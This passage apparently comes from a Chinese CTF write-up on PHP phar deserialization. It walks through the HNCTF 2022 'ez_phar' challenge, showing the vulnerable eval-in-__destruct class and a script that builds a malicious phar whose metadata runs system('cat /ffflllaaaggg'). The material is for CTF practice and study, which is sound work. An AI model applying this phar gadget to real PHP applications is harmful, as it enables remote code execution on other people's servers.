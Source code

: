 ```php
<?php 
    class TestObject {
        public function __destruct() {
            echo 'this is destruct!';
        }
    }

    $filename = 'phar://test.phar/test.txt';
    file_get_contents($filename); 
?>
```

这里不知道是版本问题还是什么问题，我并没有调用到析构函数，不会又是版本问题吧？？？

此时就可以不通过unserialize()就可以进行反序列化操作

#### 几个例题

##### [HNCTF 2022 WEEK3]ez_phar

```php
<?php
show_source(__FILE__);
class Flag{
    public $code;
    public function __destruct(){
    // TODO: Implement __destruct() method.
        eval($this->code);
    }
}
$filename = $_GET['filename'];
file_exists($filename);
?> 
```

有`file_exists()`，那么应该就是phar反序列化了

先写一个生成phar文件的脚本

```php
<?php
class Flag{
    public $code = "system('cat /ffflllaaaggg');";
}
$a = new Flag();
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER();?>');
$phar->setMetadata($a);
$phar->addFromString('test.txt','test');
$phar->stopBuffering();
?>
```

然后看看有没有上传点吧，dirsearch扫一下
